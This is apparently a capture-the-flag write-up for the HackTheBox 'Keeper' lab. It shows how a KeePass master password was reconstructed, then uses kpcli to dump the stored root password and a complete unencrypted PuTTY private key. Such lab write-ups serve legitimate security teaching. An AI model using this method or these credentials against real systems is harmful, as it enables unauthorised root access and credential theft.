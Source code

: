 The password should be "dgrød med fløde" or something similar. The initial letter is certainly missing, but from what I have obtained I have no idea what it might be. I decided to google what this phrase meant and I discovered that it is a Danish dessert.

<div><p align="center"><img src="img/kepass_password.png"></div>

The password is **rødgrød med fløde**.

```
kpcli:/> open passcodes.kdbx 
Provide the master password: *************************
```

The root user's private key in putty format is present in the database

```
kpcli:/passcodes/Network> show keeper.htb\ (Ticketing\ Server) 

 Path: /passcodes/Network/
Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
```